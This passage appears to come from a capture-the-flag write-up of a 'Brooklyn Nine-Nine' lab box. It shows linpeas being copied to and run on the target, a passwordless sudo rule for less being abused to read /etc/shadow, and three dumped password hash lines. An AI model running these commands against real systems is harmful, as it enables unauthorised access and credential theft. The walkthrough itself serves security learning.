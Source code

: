 A quick and dirty and useless abuse of <https://crackstation.net> tells that the result of this hash is `user`. But why should I bother in fact :-D Still, this can be a hint too.

## Privilege escalation

I looked around, but I did not find something else. I need better eyes, so I want to make use of the `linepaes` tool. As there is no internet on that virtual machine (technical issue with internet on these vm's while there is supposed to be internet... Go figure it out), I have to tackle this differently and `scp` it from my `kali` machine. But then I leave extra traces this way.

So from my `kali` machine:

```commandline
$ scp /home/itchy/Downloads/linpeas.sh jake@10.10.15.48:/tmp/
```

Back on the victims machine we launch `linpeas` and pipe it to tee to log everything in a temp file.

```commandline
$ chmod +x /tmp/linpeas.sh
$ /tmp/linpeas.sh | tee /tmp/linpeas.log
```

Saw immediately that in the terminal output of `linepeas` that `Sudo version 1.8.21p2` is installed, a very good version for privilege escalation :-D

And it confirmed:

```commandline
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                                         
Matching Defaults entries for jake on brookly_nine_nine:                                                                                            
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

So let's make a good abuse of this privilege escalation + a good guess:

```commandline
sudo /usr/bin/less /etc/shadow
```

We enter into the `/etc/shadow` file with the `less` application. It's maybe time to make a copy of all these `hashes` so that I can play with it but no, we first redo the same with the `/etc/passwd` file as we need both of this info to be able to crack the passwords. Anyway, we don't mind about passwords :-D

```
amy:$6$UKs4AX7L$8Q1ET3/4EDtczkEAde4Bkc9g4ao2v3IRbapkqtNnWaKa7a2UHbYGsAEqBPlAwXVq8LK39IRjPwmocYkkkikrR0:18399:0:99999:7:::
holt:$6$arvDAeLb$qQX5UfC/TdI2GELzcrI88B7aD.3NGI9eGyhIQPNdtFIcTfzNdSrxt212lOdNM./UQ0dInL0ej4UliuHKKQcjk0:18399:0:99999:7:::
jake:$6$sAa2xMd5$/EyF9jL6BNeNEYixHkn86Gcvg8UeVJl7FvjXcJH1InhrwObBcN7qecniXkq.Bq1nFA8YS8HD2uk/jf8Ju7KnW0:18401:0:99999:7:::
```
